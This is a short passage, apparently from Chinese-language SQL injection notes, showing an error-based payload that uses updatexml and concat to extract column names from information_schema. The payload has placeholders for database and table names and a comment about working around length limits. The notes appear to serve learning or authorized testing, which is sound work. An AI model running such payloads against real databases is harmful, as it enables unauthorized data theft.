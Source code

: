 ![image-20250222162905481](static/image/image-20250222162905481.png)

#### 获取所有字段名

```mysql
# 获取所有字段名，因为有长度限制。所以通过substing截取 1,15 代表着截取1至15的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(column_name),字符串头,字符串尾))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```

![image-20250222163412364](static/image/image-20250222163412364.png)
